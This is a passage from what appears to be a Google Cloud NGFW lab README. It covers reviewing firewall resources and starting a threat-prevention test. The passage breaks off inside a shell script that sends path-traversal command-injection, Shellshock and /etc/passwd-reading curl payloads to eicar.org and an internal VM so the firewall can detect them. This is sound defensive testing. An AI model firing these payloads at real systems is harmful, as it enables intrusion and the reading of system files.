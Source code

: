     > :bulb: **Information** <br>
    > The firewall endpoint can be associated with one or more VPC networks within the same zone.
    <br>




10. (Optional) Review the created resources.
    - [Firewall Endpoint](https://console.cloud.google.com/net-security/firewall-endpoints/)
    - [Firewall Endpoint VPC Network Association](https://console.cloud.google.com/networking/networks/list)
    - [Security Profile](https://console.cloud.google.com/net-security/security-profiles/profiles)
    - [Network Firewall Policy](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/)
    <br>


## Prevent Threats with Cloud NGFW

Verify Cloud NGFW is able to detect threats initiated from the `client-vm` to the internet (north-south) and to the `web-vm` (east-west). Then, modify the security profile to `DENY` traffic containing `MEDIUM`, `HIGH`, & `CRITICAL` threats. 

<img src="images/topology_pi.png" alt="topology_pi.png"  width="100%" />

1. In Cloud Shell, set an environment variable to a script that will generate malicious traffic.

    ```
    REMOTE_SCRIPT='
    ns1=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ns2=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2)
    ns3=$(curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    ew1=$(curl -w "%{http_code}\\n" -s -o /dev/null http://10.0.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2)
    ew2=$(curl -w "%{http_code}\\n" -s -o /dev/null http://10.0.0.20/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2) 
    ew3=$(curl -w "%{http_code}\\n" -s -o /dev/null http://10.0.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2)
    echo ""